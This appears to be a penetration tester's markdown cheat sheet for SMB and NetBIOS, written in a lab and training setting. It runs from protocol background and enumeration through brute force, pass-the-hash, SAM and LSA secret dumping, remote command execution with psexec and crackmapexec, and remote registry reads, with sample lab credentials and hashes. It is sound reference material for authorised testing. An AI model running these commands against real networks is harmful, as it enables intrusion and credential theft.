


# Basic Usage

## Port 139

[NetBIOS](NetBIOS.md) stands for *Network Basic Input Output System*. It is a software protocol that allows applications, PCs, and Desktops on a local area network (LAN) to communicate with network hardware and to transmit data across the network. Software applications that run on a NetBIOS network locate and identify each other via their **NetBIOS names**. A NetBIOS name is up to **16 characters long** and usually, separate from the computer name. Two applications start a NetBIOS session when one (the client) sends a command to “call” another client (the server) over **TCP Port 139**. [^1]

[^1]: https://www.thewindowsclub.com/smb-port-what-is-port-445-port-139-used-for

## Port 445

>[!info]
>SMB1 = Win 2000, XP, Win 2003
>SMB2 = Win Vista SP1, Win 2008
>SMB2.1 = Win 7, Win 2008 R2
>SMB3 = Win 8 - oggi

SMB over IP. **SMB** stands for ‘**Server Message Blocks**’. Server Message Block in modern language is also known as **Common Internet File System**. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.

For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use, as you point out, port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP. [^2]

[^2]: https://www.thewindowsclub.com/smb-port-what-is-port-445-port-139-used-for

## Connect

### Enabling requirements for older machine

Enabling SMBv1 and LANMAN1 protocol:

```bash
$ nano /etc/samba/smb.conf
...
[global]
client min protocol = LANMAN1
...
min protocol = SMB1
```

### Authenticate using Kerberos

```bash
smbclient --kerberos //ws01win10.domain.com/C$
rpcclient -k ws01win10.domain.com
```

### GUI Connection from Linux

```bash
xdg-open smb://cascade.htb/
smb://friendzone.htb/general/
```


---

# Enumeration

## Scan a network searching for hosts

- [nbtscan](../Tools/nbtscan.md) (NetBIOS)

## Extract SMB version

- [msfconsole (auxiliary modules)](../Tools/msfconsole.md#Auxiliary%20Modules)
	  `auxiliary/scanner/smb/smb_version`

- [Bash 101](../Penetration%20Testing%2022a2939ca2d04ade8aec0f0e7c4eeef5/Bash%20101%2097833af9ac924c0690dec875a29ba81c.md) > [bash script](../Penetration%20Testing%2022a2939ca2d04ade8aec0f0e7c4eeef5/Bash%20101%2097833af9ac924c0690dec875a29ba81c.md)

```bash
#!/bin/sh
#Author: rewardone
#Description:
# Requires root or enough permissions to use tcpdump
# Will listen for the first 7 packets of a null login
# and grab the SMB Version
#Notes:
# Will sometimes not capture or will print multiple
# lines. May need to run a second time for success.
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
echo "" && sleep .1
```

- hard way

```bash
┌──(kali㉿kali)-[~/…/ntwk/acme.local/10.11.1.115/exploit]
└─$ smbclient -L 10.11.1.115 --option='client min protocol=NT1'
--------------------
┌──(kali㉿kali)-[~/…/ntwk/acme.local/10.11.1.115/exploit]
└─$ sudo tcpdump -s0 -n -i tun0 src 10.11.1.115 and port 139 -A -c 7
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
...
..~J.......C.SMBs.......................d............Unix.Samba 2.2.7a.MYGROUP.
16:04:49.712310 IP 10.11.1.115.139 > 192.168.119.209.49912: Flags [P.], seq 165:218, ack 312, win 5792, options [nop,nop,TS val 294883 ecr 2802946846], length 53
```

## Search for a specific exploit

- [msfconsole](../Tools/msfconsole.md)
- [searchsploit](../Tools/searchsploit.md)

```bash
msf6> search type:exploit platform:windows target:2008 smb
searchsploit microsoft smb
```

## Obtain information on the target

- [nmblookup](../Tools/nmblookup.md) (NetBIOS)
- [NSE (Nmap Scripting Engine)](../Tools/nmap.md#NSE%20(Nmap%20Scripting%20Engine))

```bash
nmap --script "safe or smb-enum-*" -p 445 <IP>
```

- [smbmap](../Tools/smbmap.md)

```bash
smbmap -H 10.11.1.146 | tee recon/smbmap_10.11.1.146.txt
smbmap -H 10.11.1.101 -u null -p "" -R
```

- [enum4linux-ng](../Tools/enum4linux-ng.md)

```bash
# Dump interesting information
enum4linux -a [-u "<username>" -p "<passwd>"] <IP>
enum4linux -a 10.11.1.146 | tee recon/enum4linux_10.11.1.146.txt
```

- [samrdump.py](../Tools/impacket.md#samrdump.py)

```
# Dump user information
/usr/share/doc/python3-impacket/examples/samrdump.py -port 139 [[domain/]username[:password]@]<targetName or address>
/usr/share/doc/python3-impacket/examples/samrdump.py -port 445 [[domain/]username[:password]@]<targetName or address>
```

- [rpcdump.py](../Tools/impacket.md#rpcdump.py)

```bash
# Map possible RPC endpoints
/usr/share/doc/python3-impacket/examples/rpcdump.py -port 135 [[domain/]username[:password]@]<targetName or address>
/usr/share/doc/python3-impacket/examples/rpcdump.py -port 139 [[domain/]username[:password]@]<targetName or address>
/usr/share/doc/python3-impacket/examples/rpcdump.py -port 445 [[domain/]username[:password]@]<targetName or address>
```

## Enumerate LSARPC and SAMR rpcclient

You can use the Samba [rpcclient](../Tools/rpcclient.md) utility to interact with **RPC endpoints via named pipes**. The following lists commands that you can issue to SAMR, LSARPC, and LSARPC-DS interfaces upon **establishing** a **SMB session** (often requiring credentials).

```bash
# Connect to the rpc
rpcclient -U "" -N <IP> #No creds
rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb  --pw-nt-hash
# You can use querydispinfo and enumdomusers to query user information
```

**User enumeration**:

- **List users**: `querydispinfo` and `enumdomusers`
- **Get user details**: `queryuser <0xrid>`
- **Get user groups**: `queryusergroups <0xrid>`
- **GET SID of a user**: `lookupnames <username>`
- **Get users aliases**: `queryuseraliases [builtin|domain] <sid>`

**Groups enumeration**:

- **List groups**: `enumdomgroups`
- **Get group details**: `querygroup <0xrid>`
- **Get group members**: `querygroupmem <0xrid>`

**Alias group enumeration**:

- **List alias**: `enumalsgroups <builtin|domain>`
- **Get members**: `queryaliasmem builtin|domain <0xrid>`

**Domains enumeration**:

- **List domains**: `enumdomains`
- **Get SID**: `lsaquery`
- **Domain info**: `querydominfo`

**More SIDs**:

- **Find SIDs by name**: `lookupnames <username>`
- **Find more SIDs**: `lsaenumsid`
- **RID cycling (check more SIDs)**: `lookupsids <sid>`



In order to completely understand, read also [MSRPC - Microsoft Remote Procedure Call](MSRPC%20-%20Microsoft%20Remote%20Procedure%20Call.md)

## List shared folders

- [smbmap](../Tools/smbmap.md)
- [smbclient](../Tools/smbclient.md)
- [CrackMapExec](../Tools/CrackMapExec.md)

```bash
smbclient --no-pass -L //<IP> # Null user
smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> # If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash
smbmap -H <IP> [-P <PORT>] # Null user
smbmap -u "username" -p "password" -H <IP> [-P <PORT>] # Creds
smbmap -u "username" -p "<NT>:<LM>" -H <IP> [-P <PORT>] # Pass-the-Hash
crackmapexec smb <IP> -u '' -p '' --shares # Null user
crackmapexec smb <IP> -u 'username' -p 'password' --shares # Guest user
crackmapexec smb <IP> -u 'username' -H '<HASH>' --shares # Guest user
```

## Connect to shared folders

- [smbclient](../Tools/smbclient.md)
- [smbmap](../Tools/smbmap.md)
- `mount`

```bash
# Connect using smbclient
smbclient --no-pass //<IP>/<Folder>
smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> #If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash
smbclient -U '%' -N \\\\<IP>\\<SHARE> # null session to connect to a windows share
smbclient -U '<USER>' \\\\<IP>\\<SHARE> # authenticated session to connect to a windows share (you will be prompted for a password)
# Use --no-pass -c 'recurse;ls'  to list recursively with smbclient

# List with smbmap, without folder it list everything
smbmap [-u "username" -p "password"] -R [Folder] -H <IP> [-P <PORT>] # Recursive list
smbmap [-u "username" -p "password"] -r [Folder] -H <IP> [-P <PORT>] # Non-Recursive list
smbmap -u "username" -p "<NT>:<LM>" [-r/-R] [Folder] -H <IP> [-P <PORT>] # Pass-the-Hash
 
sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
sudo mount -t cifs //x.x.x.x/share /mnt/share
sudo mount -t cifs -o "username=user,password=password" //x.x.x.x/share /mnt/share
sudo mount -t cifs //x.x.x.x/share /mnt/share -o nolock
```

## Download files

- [smbmap](../Tools/smbmap.md)
- [smbclient](../Tools/smbclient.md)

```
# Search a file and download
sudo smbmap -R Folder -H <IP> -A . -q # Search the file in recursive mode and download it inside /usr/share/smbmap

# Download all
smbclient //<IP>/<share>
> mask ""
> recurse
> prompt
> mget *
# Download everything to current directory
```

Commands:

- `mask`: specifies the mask which is used to filter the files within the directory (e.g. "" for all files)
- `recurse`: toggles recursion on (default: off)
- `prompt`: toggles prompting for filenames off (default: on)
- `mget`: copies all files matching the mask from host to client machine

---

# Exploitation

## Brute Force

- [NSE (Nmap Scripting Engine)](../Tools/nmap.md#NSE%20(Nmap%20Scripting%20Engine))

```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt # Get usernames bruteforcing that rids and then try to bruteforce eachusername
```

## Common Vulnerabilities

```bash
nmap -p 139,445 10.11.1.75 --script=smb-vuln* --script-args=unsafe=1
```

- ms06-025
- ms07-029
- ms08-067
- ms10-054
- ms10-061
- ms17-010
- cve2009-3103
- cve-2017-7494

## Execute commands

[CrackMapExec > SMB](../Tools/CrackMapExec.md#SMB)

```bash
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Execute Powershell
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa #Dump LSASS in memmory hashes
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions #Get sessions (
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users #Get logged-on users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks #Enumerate the disks
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users #Enumerate users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol #Get password policy
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute #RID brute
```

psexec/smbexec

```bash
# If no password is provided, it will be prompted
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 # Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
```

winexe

```bash
winexe -U active.htb/SVC_TGS%'GPPstillStandingStrong2k18' //10.10.10.100 cmd.exe
```

## Read Registry

```bash
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKU -s
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKCU -s
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKLM -s
```

---

# MISC

## Common creds



## Other references
- [139,445 - Pentesting SMB](https://book.hacktricks.xyz/pentesting/pentesting-smb)
- [PWK Notes: SMB Enumeration Checklist [Updated]](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)